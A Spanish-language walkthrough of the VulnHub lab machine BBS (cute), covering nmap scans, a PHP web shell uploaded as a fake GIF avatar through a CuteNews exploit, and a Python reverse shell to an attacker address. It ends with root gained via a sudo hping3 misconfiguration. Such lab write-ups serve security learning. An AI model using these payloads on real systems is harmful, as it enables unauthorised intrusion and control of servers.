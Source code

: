 <h1 align="center">
<br>
  <img src="https://media1.tenor.com/images/30b8dc5259183e941fff4ca89ee171b2/tenor.gif?itemid=15749033" alt="Front-End Checklist" width="200">
  <br>
  BBS (CUTE): 1.0.2
  <br>
</h1>

<h4 align="center">Maquina creada por foxlox</h4>
<h4 align="center">Aquí puedes descargarte la <a href="http://www.vulnhub.com/entry/bbs-cute-102,567/">página web</a> y ver una descripción de ella</h4>

---
# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Web](#web)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Web](#web-1)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Remote Code Execution](#remote-code-execution)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#sudo--l)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [HPING3](#hping3)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.56.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.56.101```

Para ver si esos puertos son vulnerables usaremos este comando:

```nmap -Pn -T4 -p 80,88,110,995 --script vuln 192.168.56.101```

### Web

Iremos a la pagina **index.php** y usaremos **Ctrl+U** para ver el código fuente, veremos que el captcha tiene una .php y ademas veremos la versión del **Cutenews**

<img src="https://i.gyazo.com/ec8dc1b59c4ed97bf2bea3cf8ba8a6b8.png">

## Búsqueda de vulnerabilidades

### Web
Después de esto nos registraremos y buscaremos un exploit para esa versión del **Cutenews**

Encontramos este [exploit](https://www.exploit-db.com/exploits/48800) y nos aprovechamos del payload para meterlo como php en el avatar:

```
GIF8;
<?php system($_REQUEST['cmd']) ?>
```

> El **GIF8;** es para que tenga un tamaño y sea aceptado como avatar

## Explotación de vulnerabilidades

### Remote Code Execution

Para obtener la ejecución de código remoto iremos a esta página web para utilizar el exploit anteriormente visto:

```http://192.168.56.101/uploads/avatar_jose_script.php?cmd=whoami```

Gracias a esto somos **www-data**

### Reverse Shell

Ahora buscaremos una [reverse shell en python](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)para tener permisos como usuario.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Esto lo añadimos a la url anterior tal que asi: **?cmd=AQUI_LA_REVERSE_SHELL**

Por último abriremos un puerto para recibir la respuesta de la reverse shell:

```rlwrap nc -nvlp 1234```

## Post-explotación

Para tener una shell interactiva usaremos este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(root) NOPASSWD: /usr/sbin/hping3 --icmp
```

## Explotación de vulnerabilidades

### HPING3

Aquí tienes una [web](https://tools.kali.org/information-gathering/hping3) donde explica las utilidades del hpin3.

Para tener root usaremos el comando tal cual y entraremos:
```sudo /usr/sbin/hping3 --icmp```

## Información Adicional

Páginas web utilizadas:

- [Exploit](https://www.exploit-db.com/exploits/48800) - Exploit Remote Code Execution del CuteNews 2.1.2.

- [Reverse Shell](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) - Cheat Sheet de reverse shells.

- [HPIN3](https://tools.kali.org/information-gathering/hping3) - Descripción del paquete hping3.


**[⬆ back to top](#-----bbs-cute-102-)**
